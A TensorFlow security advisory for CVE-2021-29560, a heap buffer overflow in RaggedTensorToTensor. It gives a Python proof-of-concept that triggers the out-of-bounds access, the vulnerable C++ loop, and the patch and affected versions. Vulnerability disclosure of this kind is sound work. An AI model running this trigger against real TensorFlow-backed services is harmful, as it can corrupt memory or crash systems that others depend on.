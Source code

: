 ## TFSA-2021-048: Heap buffer overflow in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29560

### Impact
An attacker can cause a heap buffer overflow in
`tf.raw_ops.RaggedTensorToTensor`:

```python
import tensorflow as tf

shape = tf.constant([10, 10], shape=[2], dtype=tf.int64)
values = tf.constant(0, shape=[1], dtype=tf.int64)
default_value = tf.constant(0, dtype=tf.int64)
l = [849, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
row = tf.constant(l, shape=[5, 43], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
    shape=shape, values=values, default_value=default_value,
    row_partition_tensors=rows, row_partition_types=types)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
uses the same index to access two arrays in parallel:

```cc
for (INDEX_TYPE i = 0; i < row_split_size - 1; ++i) {
  INDEX_TYPE row_length = row_split(i + 1) - row_split(i);
  INDEX_TYPE real_length = std::min(output_size, row_length);
  INDEX_TYPE parent_output_index_current = parent_output_index[i];
  ...
}
```

Since the user controls the shape of the input arguments, an attacker could
trigger a heap OOB access when `parent_output_index` is shorter than
`row_split`.

### Patches
We have patched the issue in GitHub commit
[a84358aa12f0b1518e606095ab9cfddbf597c121](https://github.com/galeone/tensorflow/commit/a84358aa12f0b1518e606095ab9cfddbf597c121).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
